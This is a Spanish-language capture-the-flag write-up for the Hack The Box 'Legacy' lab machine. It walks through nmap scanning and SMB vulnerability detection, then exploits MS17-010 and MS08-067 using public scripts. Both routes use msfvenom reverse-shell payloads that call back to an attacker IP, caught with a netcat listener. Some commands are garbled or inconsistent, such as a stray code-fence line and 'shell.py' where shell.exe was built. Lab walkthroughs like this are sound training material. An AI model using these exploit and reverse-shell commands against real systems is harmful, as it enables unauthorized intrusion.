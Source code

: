 #  LEGACY MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.4 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p139,445,3389 -sV -sC 10.10.10.4 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/3.PNG)

## EXPLOTACION

Como vemos que tiene el servicio smb habilitado, vamos a correr algunos script de nmap para detectar vulnerabilidades sobre ese servicio:

```bash
nmap -p445 --script=smb-vuln-* 10.10.10.4
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/4.PNG)

vemos que es vulnerable a **MS-17-010** y **MS-08-067**

podriamos ejecutar cualquiera de ambos y es lo que vamos a hacer.

### MS-17-010

para este caso encontre un script llamado **send_and_execute.py**:

[https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

```bash
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010
```

nos creamos una reverse shell en **.exe** malicioso con msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4242 EXITFUNC=threads -f exe -a x86 --platform windows -o shell.exe
```

y lo que hace este script es enviar un ejecutable a la maquina windows y ejecutarlo automaticamente, nos colocamos en escucha con netcat y ejecutamos.

**se necesita instalar impacket**

```bash
#python2
apt install python2
python2
wget ```python
https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python2 -m pip install .

#python3
apt install python3
python3
apt install python3-pip
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 -m pip install .
```

de acuerdo a con que version de python instalaste impacket ejecutas python o python3:

```bash
python send_and_execute.py 10.10.10.4 shell.py
```

estamos dentro como root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/5.PNG)

### MS-08-067

hay un script en github que nos ayudara: [https://github.com/areyou1or0/OSCP/blob/master/Scripts%20-%20MS08-067](https://github.com/areyou1or0/OSCP/blob/master/Scripts%20-%20MS08-067)

modificamos el exploit cambiando la shellcode por uno que vamos a generar:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4545 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

lo reemplazamos y ejecutamos.

**debe estar impacket instalado como en el anterior caso, de preferencia instalado con python2**

tiene unas opciones el script por sistema operativo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/6.PNG)

nos funciono con la opcion 6 asi que ejecutamos:

```bash
python ms08-067.py 10.10.10.4 6 445
```

en la escuhca en netcat ya ingresamos como root a la maquina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/7.PNG)

de igual forma podemos ver las flags.